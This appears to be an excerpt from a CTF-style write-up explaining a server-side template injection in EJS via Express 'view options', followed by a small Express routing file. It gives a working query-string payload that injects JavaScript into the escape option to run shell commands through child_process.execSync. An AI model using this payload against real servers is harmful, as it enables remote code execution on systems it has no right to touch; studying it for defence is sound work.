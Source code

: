 ```js
                                        // }
    viewOpts = data.settings['view options'];
    if (viewOpts) {
      utils.shallowCopy(opts, viewOpts);
    }

    // 'client' is allowed to be copied
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
    // ...

    return tryHandleCache(opts, data, cb);
};
```

The `opts` variable is then passed to the `Template` object. So, we can get a RCE with the following query string.

```
?settings[view options][escape]=1;return+process.mainModule.require("child_process").execSync("id").toString();
&client=1
```

This query string is equals to:

```json
{
  settings: {
    'view options': {
      escape: '1;return process.mainModule.require("child_process").execSync("id").toString();'
    }
  },
  client: '1'
}
```
{{< /details >}}

## Base routing

File: `main.js`

```js
const express = require('express')

const port = 3000;
const app = express()

app.use(
	express.static('static', {
		index: 'index.html'
	})
)

app.use((req, res) => {
	res.type('text').send(`Page ${req.path} not found`)
})

app.listen(port, async () => {
	console.log(`Listening on http://0.0.0.0:${port}`)
})
```
